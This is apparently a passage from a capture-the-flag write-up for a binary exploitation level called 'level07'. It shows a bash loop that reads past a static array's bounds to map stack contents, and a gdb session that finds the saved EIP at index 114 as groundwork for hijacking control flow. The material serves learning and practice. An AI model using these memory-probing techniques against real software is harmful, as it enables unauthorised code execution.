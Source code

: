 ```bash
for i in {0..700}
do
    O=$(echo -e "read\n$i\nquit" | ./level07)
    if [ $? -ne 0 ]; then
        break
    fi
    NL=$(echo "$O" | grep "Number")
    NB=$(echo "$NL" | awk '{print $NF}')
    if [ $NB -ne 0 ]; then
        echo "a[ $i ] -> $NB -> 0x$(echo "obase=16; $NB" | bc)"
    fi
done
```

<details><summary><b>Output</b></summary></details>

## `EIP` outside of boundaries

We are looking for the saved `EIP` on the stack, when reading outside of the boundaries of the static array.

To find the saved `EIP` address on the `main` function, we use `gdb`.

```bash
(gdb) break *main
Breakpoint 1 at 0x8048723
(gdb) run
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048723 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048723 in main; saved eip 0xf7e45513 <=====
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd720
 Saved registers:
  eip at 0xffffd71c
```

And in fact, in the output of our *mapping script*, we find the address `0xf7e45513` on the index `114`.

```bash
a[ 100 ] -> 1 -> 0x1
a[ 101 ] -> 1684104562 -> 0x64616572
a[ 106 ] -> 893490944 -> 0x35419700
a[ 107 ] -> 4160665120 -> 0xF7FEB620
a[ 109 ] -> 134515209 -> 0x8048A09
a[ 110 ] -> 4160548852 -> 0xF7FCEFF4
a[ 114 ] -> 4158936339 -> 0xF7E45513 <====
a[ 115 ] -> 1 -> 0x1
a[ 116 ] -> 4294957012 -> 0xFFFFD7D4
a[ 117 ] -> 4294957020 -> 0xFFFFD7DC
a[ 118 ] -> 4160565248 -> 0xF7FD3000
a[ ... ] -> . -> ...
```
